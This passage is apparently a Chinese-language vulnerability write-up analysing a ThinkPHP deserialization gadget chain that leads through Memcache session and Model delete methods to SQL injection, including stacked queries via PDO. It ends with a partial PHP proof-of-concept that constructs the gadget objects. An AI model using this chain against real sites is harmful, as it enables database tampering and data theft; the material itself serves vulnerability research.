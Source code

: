 ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1CvptAXLicLNbqcLD7dW4Mpnwf3jnWU3JXqbrXCBsr1Daic8dGeS05UYg/640?wx_fmt=png)

$pk 可控 $this->data 可控 。

最终去驱动类的入口在这里

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1lUPO36lPvIXxUVVDaSYia1dNib0v8ArVXKkdvbLiaStiaeIPibGFmqwrmVQ/640?wx_fmt=png)  
下面是驱动类的 delete 方法

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1HPA2VHFSP4LCBsVGM9CDthnM7sjdGBjhrXyMc3d3GbNiagj2ZibjMnQw/640?wx_fmt=png)  
我们在一开始调用 Model 类的 delete 方法的时候，传入的参数是

```
$this->sessionName.$sessID
```

而后面我们执行的时候是依靠数组的，数组是不可以用 字符串连接符的。参数控制不可以利用 $this->sessionName。

但是可以令其为空（本来就是空），会进入 Model 类中的 delete 方法中的第一个 if 分支，然后再次调用 delete 方法，把 $this->data[$pk] 作为参数传入，这是我们可以控制的！

看代码也不难发现注入点是在 $table 这里，也就是 $options[‘table’]，也就是 $this->data[$this->pk[‘table’]];

直接跟进 driver 类中的 execute() 方法

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1SkwuBibKCVicT28h1qYiaKrkZbicY8tyF86WsXvy3iaDuY6K8OsgJPvk1RA/640?wx_fmt=png)  
跟进 initConnect() 方法

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1FtZaJbicJKGGojkWafq1H5TuAHtBtDVPaibtibuPHp0HyJA3IxoVKRYFQ/640?wx_fmt=png)  
跟进 connect() 方法

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1Re3gUOTw4qXv7WUdt2h8K8fGaMSGicf8gBeR6N5Hceuhl0BRiaXBtejw/640?wx_fmt=png)  
数据库的连接时通过 PDO 来实现的，可以堆叠注入 (PDO::MYSQL_ATTR_MULTI_STATEMENTS => true ) 需要指定这个配置。

这里控制 $this->config 来连接数据库。

driver 类时抽象类，我们需要用 mysql 类来实例化。

到这里一条反序列化触发 sql 注入的链子就做好了。

###### 漏洞复现

poc

```
<?php
namespace Think\Image\Driver;
use Think\Session\Driver\Memcache;
class Imagick{
    private $img;
    public function __construct(){
        $this->img = new Memcache();
    }
}
namespace Think\Session\Driver;
use Think\Model;
class Memcache {
    protected $handle;
    public function __construct(){
        $this->sessionName=null;
        $this->handle= new Model();
    }
}
namespace Think;
use Think\Db\Driver\Mysql;
class Model{
    protected $pk;
    protected $options;
```